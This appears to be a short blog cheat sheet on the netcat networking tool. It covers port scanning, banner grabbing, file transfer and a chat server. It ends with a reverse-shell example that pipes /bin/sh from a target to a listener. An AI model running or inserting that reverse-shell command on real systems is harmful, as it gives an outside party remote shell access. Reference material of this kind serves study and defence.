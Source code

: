 ```yaml
---
title: "netcat"
categories: 
- informationsecurity
tags:
- blue team
- tools
classes: 
- wide
excerpt: ""Swiss army knife" of networking" 
toc: true
--- 
```


Netcat is a versatile networking tool known for its simplicity and effectiveness. It's used for tasks like port scanning, file transfers, and network debugging, utilizing TCP/UDP protocols. Commonly referred to as the "Swiss Army knife" of networking, it's a fundamental tool for system administrators and security professionals.

## Port scanning

```bash
# command
nc -zv [server IP or domain] [port range]

# example
nc -zv example.com 80-90
```

## Banner grapping

```bash
# command
nc [server IP or domain] [port]

# ecample
nc example.com 80
```

## transfering files

```bash
# receiving
nc -l -p [port] > [output file]

# sending
nc [server IP] [port] < [input file]
```

## simple chat server

```bash
# server
nc -l -p [port]

# client
nc [server IP] [port]
```

## reverse shell

```bash
# client
nc -lvp 1234

# target
nc [client's IP] [port] -e /bin/sh
```

## source

* [nc(1) - Linux man page][def]

[def]: https://linux.die.net/man/1/nc
